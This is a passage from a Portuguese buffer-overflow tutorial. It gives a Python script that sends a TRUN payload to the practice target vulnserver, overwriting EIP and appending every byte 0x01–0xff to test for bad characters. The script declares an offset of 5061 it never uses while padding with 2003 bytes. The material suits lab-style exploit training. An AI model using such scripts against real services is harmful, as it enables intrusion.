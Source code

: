 Vamos adicionar estes badchars em nosso payload no lugar dos “C” e rodar novamente.

xpltrun.py:

```python
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

# tamanho do offset encontrado no fuzzing
offset = 5061

# payload a ser enviado
payload = b"TRUN /../" # funcao inicial
payload += b"A"*2003 # preenchimento do buffer
payload += b"B"*4 # sobrescreve EIP
payload += b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" # sobrescreve ESP

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # cria o socket
s.connect((ip,porta)) # conecta no alvo

s.send(payload + b"\r\n") # envia o payload

s.close() # fecha conexao
```

Após reiniciar o vulnserver no Immunity, vamos rodar o script novamente.
